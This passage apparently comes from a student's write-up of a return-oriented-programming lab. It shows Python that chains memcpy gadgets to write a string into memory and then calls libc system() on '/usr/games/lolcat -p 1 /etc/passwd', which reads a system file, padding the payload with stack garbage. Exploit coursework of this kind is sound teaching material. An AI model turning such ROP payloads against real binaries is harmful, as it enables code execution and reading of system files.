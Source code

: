 ```python
        # find byte sequences which share a common prefix with current `s`.
        # _map is inverse sorted by len, so we get the longest prefixes first.
        tmp = [(addr, n) for (k, addr) in _map.items()
               if (n := longest_common_prefix_len(s, k)) > 0]
        if len(tmp) <= 0:
            raise ValueError(f"Failed to build memcpy chain for: {s}")

        src_addr, n_bytes = tmp[0]
        chains   += [memcpy_chain(cur_addr, src_addr, n_bytes)]
        cur_addr += n_bytes
        s = s[n_bytes:]

    if do_shuffle: random.shuffle(chains)
    return b"".join(chains)
```

Then, I use the function (along with a couple of other, less important helper
functions; please see `common.py`) to solve the task in `rop-chain-fix.py` as
such:

```python
def task_3():
    addr = 0x403160
    system_arg = "/usr/games/lolcat -p 1 /etc/passwd"

    # write the system() argument string to a known safe addr in mem
    rop = try_build_memcpys_chain(addr, system_arg)

    rop = do_align(rop) # align if necessary after the memcpy chain.

    # call system("usr/games/lolcat ..."), then exit(0).
    rop += call_libc_chain("getline", "system", rdi = addr)

    rop = do_align(rop) # align if necessary after call to system()

    rop += call_libc_chain("system",  "exit",   rdi = 0)

    # prepend stack garbage and append newline.
    rop = b"\0" * 131 + rop + b"\n"
    sys.stdout.buffer.write(rop)
```

---

## Part 4: Do something else

For task 3, I copied the structure and method used in the handed-out
`rop-chain`. However, it was not very efficient, since for one it required the
user to manually find byte sequences in the disassembly, and secondly, the
generated ROP chain quickly becomes very long, since you can often only write 1
or 2 bytes at a time depending on the contents of the binary.
